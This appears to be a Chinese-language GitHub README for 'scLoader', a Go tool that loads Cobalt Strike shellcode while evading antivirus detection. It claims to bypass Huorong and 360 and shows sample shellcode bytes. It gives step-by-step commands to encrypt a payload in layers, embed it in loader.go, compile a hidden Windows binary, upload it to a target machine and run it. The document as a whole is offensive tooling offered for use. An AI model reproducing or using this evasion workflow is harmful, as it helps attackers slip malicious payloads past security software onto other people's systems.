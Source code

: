 # scLoader: shellcode 加载器

## 效果
目前测试了火绒和360，静态动态都能免杀，静态VT检测效果一般

## 特点
- 基于Syscall进行免杀shellcode加载
- 加密方式可以自己选择

## 支持shellcode格式
目前支持CS中C语言格式和Raw格式的shellcode

**C语言字符串格式shellcode**
```
\xfc\x48\x83\xe4\xf0\xe8\xc8\x00\x00\x00\x41\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48
```

**纯十六进制格式的shellcodes**
```
fc48 83e4 f0e8 c800 0000 4151 4150 5251
5648 31d2 6548 8b52 6048 8b52 1848 8b52
2048 8b72 5048 0fb7 4a4a 4d31 c948 31c0
ac3c 617c 022c 2041 c1c9 0d41 01c1 e2ed
```

## 使用

1、使用sparrow.exe加密shellcode
将CS生成的.bin文件或.c文件放在sparrow.exe同一目录，使用命令

```
.\sparrow.exe -e des,rc4,aes,3des,base64 -f .\payload.bin 
```
***注意：-e参数必须使用base64编码结尾***

![](https://github.com/Peithon/scLoader/blob/master/imgs/shellcode-encode.png)

2、将加密之后的shellcode填充到loader.go中的shellcode参数

3、按照加密顺序调整loader.go中的解密顺序，如这里base64,3des,aes,rc4,des

4、编译loader.go文件
```
go build -trimpath -ldflags="-w -s -H=windowsgui" loader.go
```

5、上传到目标机器，使用`loader.exe -fuck`命令加载shellcode


